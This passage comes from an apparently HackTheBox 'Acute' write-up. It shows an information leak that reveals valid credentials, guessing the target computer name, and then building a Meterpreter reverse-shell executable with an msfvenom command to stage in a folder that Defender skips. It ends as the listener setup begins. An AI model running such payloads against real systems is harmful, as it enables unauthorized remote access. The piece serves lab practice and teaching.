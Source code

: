 However, for edavies, it was different:

![image-20220607124356392](https://0xdfimages.gitlab.io/img/image-20220607124356392.png)

That’s an information leak that the username/password worked, but the computer was wrong.

#### Find Computer

I’ll try again with the same creds, but use the computer name from the metadata, “Acute-PC01”. It works:

![image-20220607124505230](https://0xdfimages.gitlab.io/img/image-20220607124505230.png)

### Meterpreter

#### Strategy

Enumerating through this web access console is a bit of a pain. When I go to run [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) in a bit, the output is messed up, and the history too short to see it all. I’m going to use this access to get a reverse shell.

Typically I try to avoid using Meterpreter on HTB machines because (a) I like to understand what’s going on to better learn, and (b) many people reading writeups are practicing for exams where Meterpreter is not allowed / limited.

That said, there’s a step coming that is made possible (or at least significantly easier) with Meterpreter, so I’ll use that here.

#### Generate Payload

I’ll use `msfvenom` to generate a reverse shell using Meterpreter in an executable format:

```

oxdf@hacky$ msfvenom -p windows/x64/meterpreter/reverse_tcp LPORT=4444 LHOST=10.10.14.6 -f exe -o rev.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: rev.exe

```

I don’t have to worry about any obfuscation or encoding, as I will find in a minute a Defender-free folder to stage from. I’m using a high port so I don’t have to start `msfconsole` as root.

#### Start Listener

I’ll run `msfconsole` to start Metasploit, and then run `use exploit/multi/handler` to get the “exploit” that just listens for a reverse connection and starts a session with it.

I’ll set the `payload`, `lhost`a and `lport` to match what I used in `msfvenom`, and then `run`:
